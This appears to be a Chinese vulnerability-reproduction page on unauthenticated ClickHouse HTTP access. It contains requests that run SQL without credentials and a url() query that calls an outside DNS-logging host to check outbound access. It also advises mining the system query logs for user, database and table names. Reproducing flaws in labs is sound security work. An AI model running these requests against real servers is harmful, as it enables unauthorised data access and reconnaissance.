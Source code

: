 # clickhouse 未授权访问漏洞

## 漏洞描述

恶意攻击者可以在不提供有效凭据的情况下访问 ClickHouse 服务器。这可能导致未经授权的访问敏感数据，或允许攻击者修改或删除数据。**默认情况下，clickhouse-server会在8123端口上监控HTTP请求（这可以在配置中修改）。**

## 环境搭建

```
sudo apt-get install -y apt-transport-https ca-certificates dirmngr
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv 8919F6BD2B48D754

echo "deb https://packages.clickhouse.com/deb stable main" | sudo tee \
    /etc/apt/sources.list.d/clickhouse.list
sudo apt-get update

sudo apt-get install -y clickhouse-server clickhouse-client

sudo service clickhouse-server start
clickhouse-client
```

## 漏洞复现

首先确定是否使用了 ClickHouse 数据库的接口

```
curl http://192.168.0.5:8123
```

根据文档得知，正常返回为 Ok. , 且存在 `X-ClickHouse-Summary` 作为返回包的 Header

![image-20220519222815299](../../.gitbook/assets/image-20220519222815299.png)

测试是否可以执行SQL命令, 部分会开启身份验证导致未授权执行失败

```
/?query=SHOW%20DATABASES
```

![image-20220519222912183](../../.gitbook/assets/image-20220519222912183.png)

成功执行语句获取数据，执行其他命令探测出网

```
http://192.168.0.5:8123/?query=SELECT%20*%20FROM%20url(%27http://cf1cfb13.dns.1433.eu.org/%27,%20CSV,%20%27column1%20String,%20column2%20UInt32%27)%20LIMIT%203;
```

![image-20220519223412215](../../.gitbook/assets/image-20220519223412215.png)



可以查看 system库中的执行记录表来获取最近执行的所有SQL语句来快速定位可利用的信息(获取敏感用户信息，数据库名以及数据表名)

